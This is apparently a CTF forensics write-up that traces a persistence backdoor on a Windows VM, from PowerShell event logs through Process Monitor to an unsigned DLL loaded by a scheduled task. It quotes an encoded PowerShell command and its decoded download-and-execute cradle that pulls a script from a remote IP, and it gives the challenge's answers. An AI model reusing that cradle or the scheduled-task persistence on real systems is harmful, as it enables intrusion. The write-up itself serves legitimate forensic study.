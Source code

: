 This challenge was divided in 2 parts

## 1

We need to find the hash of a malicious binary present on the VM. First, we need to unlock the VM because we don't have the password!

To do this, I use the tool `Passcap rest.iso` which I load into a virtual disk and boot from in order to find an admin account where I can change the password. I find the account john and assign it the password `forensic`

The first log analyses via `eventvwr` prove to be conclusive in the tab: Application and service log => Powershell:

```
powershell.exe -nop -enc SQBFAFgAKABOAGUAdwAtAE8AYgBqAGUAYwB0ACAATgBlAHQALgBXAGUAYgBDAGwAaQBlAG4AdAApAC4AZABvAHcAbgBsAG8AYQBkAFMAdAByAGkAbgBnACgAJwBoAHQAdABwADoALwAvADEAOQAyAC4AMQA2ADgALgA1ADYALgAxAC8AZQB4AHAAbABvAGkAdAAuAHAAcwAxACcAKQA=
```

Strange... if we decode it:

```
IEX(New-Object Net.WebClient).downloadString('http://192.168.56.1/exploit.ps1')
```

So an exploit is downloaded via PowerShell. We therefore need to find the binary that performs the download via PowerShell (potentially an unsigned binary / suspicious name, etc...)

To do this, I will use Process Monitor with bootlog enabled (since it's launched at startup) where I configure an advanced filter:

Operation => Process Create
Path => contains "powershell.exe"

Then we restart. We accept to open the bootlog when I relaunch Process Monitor and observe that the parent of powershell.exe is taskhostw\.exe (so a scheduled task), and if we look at the DLL imports:

![alt text](note/ctf/Midnight_2025/asset/blackdoor1.png)

We find a DLL not signed by Windows: mscms2.dll

We check its hash with VirusTotal: 04c740418760eb3cdd738a4480337e03

First part done!

## 2

We saw that it was a scheduled task and we need its ID:

First, I launch Autorun and go to the Scheduled Task section:

![alt text](note/ctf/Midnight_2025/asset/blackdoor2.png)

I find the task `Calibration Loader` which is suspicious and linked to the DLL, I retrieve all the info in XML format via a PowerShell command:

```powershell
Get-ScheduledTask -TaskPath "\Microsoft\Windows\WindowsColorSystem" -TaskName "Calibration Loader" | Export-ScheduledTask
```

And find its ID: `<ClassId>{B210D694-C8DF-490D-9576-9E20CDBC20BD}`

Which corresponds to the end of the challenge.
